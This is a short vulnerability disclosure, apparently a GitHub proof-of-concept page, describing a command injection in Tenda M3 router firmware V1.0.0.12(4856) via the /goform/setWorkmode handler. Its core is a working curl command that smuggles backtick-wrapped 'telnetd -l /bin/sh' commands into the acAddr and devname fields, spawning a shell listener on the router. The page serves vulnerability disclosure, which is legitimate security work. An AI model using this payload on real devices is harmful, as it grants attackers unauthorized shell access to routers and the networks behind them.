 # Tenda M3 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda M3 1.10 V1.0.0.12(4856) devices. An HTTP request parameter is used in command string construction within the handler function of the /goform/setWorkmode route. This could lead to Command Injection via Shell Metacharacters.

httpd:

![1](./1.jpg)

netctrl:

![2](./2.jpg)





When we send packets, the router will be shell

```
curl -i -X POST http://192.168.10.1/goform/setWorkmode -d acAddr='%27`telnetd -p 2333 -l /bin/sh`%27' -d workmode='slave' -d devname='`telnetd -p 2233 -l /bin/sh`'  --cookie "user=admin"
```





![poc](./poc.jpg)

